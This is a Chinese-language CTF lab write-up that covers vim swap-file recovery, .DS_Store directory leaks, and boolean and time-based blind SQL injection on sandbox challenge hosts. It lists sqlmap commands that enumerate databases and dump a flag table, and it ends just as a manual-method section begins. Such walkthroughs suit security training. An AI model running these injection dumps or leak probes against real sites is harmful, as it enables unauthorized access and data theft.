 ## 1.vim缓存   

**vim在编辑文档的过程中如果异常退出，会产生缓存文件，第一次产生的缓存文件后缀为.swp，后面会产生.swo**

第一次产生的交换文件名为 `.index.php.swp`

再次意外退出后，将会产生名为 `.index.php.swo` 的交换文件

第三次产生的交换文件则为 `.index.php.swn`

<img src="https://i-blog.csdnimg.cn/blog_migrate/e34e16762c288d642b31779d56d94ac4.png" alt="img" style="zoom:150%;" />

Linux中终端输入  vim -r index.php.swp

![image-20241014150128586](D:\ctf wp\40.1.assets\image-20241014150128586.png)

## 2.DS_Store

后缀加.DS_Store 查看更目录下文件

![image-20241014152500091](D:\ctf wp\40.1.assets\image-20241014152500091.png)

![image-20241014152745404](D:\ctf wp\40.1.assets\image-20241014152745404.png)

用curl 查看文件（或直接浏览器） 猜测后缀是txt

![image-20241014152813758](D:\ctf wp\40.1.assets\image-20241014152813758.png)

## 3.布尔盲注 （sqlmap）

手动注入费时费力 学习并使用sqlmap

3.1 ：python sqlmap.py -u "http://challenge-afb56b2267c36323.sandbox.ctfhub.com:10800/?id=1" --dbs

![image-20241015145651210](D:\ctf wp\40.1.assets\image-20241015145651210.png)

3.2： python sqlmap.py -u"http://challenge-afb56b2267c36323.sandbox.ctfhub.com:10800/?id=1" -D sqli --tables 

![image-20241015145738178](D:\ctf wp\40.1.assets\image-20241015145738178.png)

3.3 ：python sqlmap.py -u "http://challenge-afb56b2267c36323.sandbox.ctfhub.com:10800/?id=1" -D sqli -T flag --columns --dump

![image-20241015145904082](D:\ctf wp\40.1.assets\image-20241015145904082.png)



## 4.时间盲注 

(利用sqlmap与上题一致 python sqlmap.py -u "http://challenge-4f4f38eca8f9a7fc.sandbox.ctfhub.com:10800/?id=1" --batch --technique T --dbs)

手动方法：
